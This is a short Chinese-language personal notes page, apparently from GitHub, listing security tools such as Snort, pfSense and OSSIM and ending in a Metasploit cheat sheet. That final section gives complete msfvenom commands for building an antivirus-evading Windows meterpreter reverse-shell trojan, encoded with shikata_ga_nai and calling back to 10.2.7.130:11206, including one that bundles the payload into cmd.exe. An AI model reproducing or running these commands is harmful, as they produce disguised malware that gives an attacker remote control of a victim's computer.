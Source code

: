 # 生活技能

`后续补充`
snort , 
pfsense, 

#### ossim, 
```angular2html
OSSIM是SIEM的代表性产品，在产品形式上和Kali类似是一个基于Debain进行二次开发的Linux发行版，当前5.6.5版本基于Dibian 8（jessie）。

OSSIM使用Nmap等实现资产发现、使用Nessus等实现漏洞扫描、使用Snort等实现入侵检测、使用MySQL等进行数据存储，自己实现的部分主要是工具、数据整合和可视化展示。
```
### 下载地址
````angular2html
https://dlcdn.alienvault.com/AlienVault_OSSIM_64bits.iso
````
clamav, 
panabit, 
iscisi, 
freewaf, 
ningx


# Metasploit

### session
```angular2html
background 临时退出shell
```
### msfvenom

> 查看编辑器 `msfvenom --list encoders`
>
> 查看 `windows/meterpreter/reverse_tcp`支持的平台 `msfvenom -p windows/meterpreter/reverse_tcp --list-options`
>
> 查看所有payload `msfvenom --list payloads`
>
>还有 ` nops, platforms, archs, encrypt, formats`


#### msfvenom生成木马

```angular2html
生成免杀木马
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=10.2.7.130 lport=11206 -f exe > haya.exe

捆绑进cmd.exe，目前失败，程序无法执行
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai lhost=10.2.7.130 lport=11206 -b '\x00' -x cmd.exe -k -i 12 -f exe -o cmd1.exe
```

